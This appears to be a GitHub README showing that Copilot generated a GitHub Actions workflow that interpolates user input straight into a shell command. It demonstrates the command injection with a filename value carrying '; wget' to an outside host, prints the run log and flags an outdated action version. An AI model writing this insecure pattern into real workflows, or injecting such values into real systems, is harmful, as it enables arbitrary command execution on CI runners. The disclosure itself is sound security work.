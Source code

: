 # copilot-gha-vul-command-injection

Today 2024-12-18, GitHub copilot is [General Availabe](https://github.blog/changelog/2024-12-18-copilot-chat-on-github-is-now-generally-available-for-all-users/), anyone can use GitHub Copilot for free at https://github.com/copilot or with editor like VSCode.

Using the latest model GPT 4o, I tried to create a GitHub action to run a command with user input. The generated code at https://github.com/hvnsweeting/copilot-gha-vul-command-injection/blob/main/.github/workflows/run-python-script.yml , main part:

```yaml

    - name: Run Python script
      run: python main.py ${{ github.event.inputs.filename }}

    - name: Create Pull Request
      uses: peter-evans/create-pull-request@v3

```
 could work after some modifcation i.e. [allow action to WRITE](https://github.com/ad-m/github-push-action/issues/96#issuecomment-889984928), it has serious security issues:

## Command injection
Users who can run the action (e.g in an org) can execute any command by add `; command` to the filename input. For example here run with filename

```
input.txt; wget -O- https://httpbin.org/get 
```

and result is


```

Run python main.py input.txt; wget -O- https://httpbin.org/get 
  python main.py input.txt; wget -O- https://httpbin.org/get 
  shell: /usr/bin/bash -e {0}
  env:
    pythonLocation: /opt/hostedtoolcache/Python/3.12.8/x64
    LD_LIBRARY_PATH: /opt/hostedtoolcache/Python/3.12.8/x64/lib
--2024-12-19 13:42:12--  https://httpbin.org/get
Resolving httpbin.org (httpbin.org)... 34.226.108.155, 98.85.100.80
Connecting to httpbin.org (httpbin.org)|34.226.108.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
...
```
https://github.com/hvnsweeting/copilot-gha-vul-command-injection/actions/runs/12413871568/job/34656690134

This vul is so popular, it is always on top 10 OWASP https://owasp.org/www-community/attacks/Command_Injection
that's maybe the reason Copilot **learned** it.

## Use old version of action

```
create-pull-request@v3
```
Current version is v7

v3 was released `Feb 28, 2022`, there were 366 commits between them https://github.com/peter-evans/create-pull-request/compare/v3...v7

### Mitigation

While this is buried under "Security" section of GitHub Action docs, user who use GitHub copilot likely won't every open it. 

https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#example-of-a-script-injection-attack

### Should not trust Copilot than anyone on internet :joy: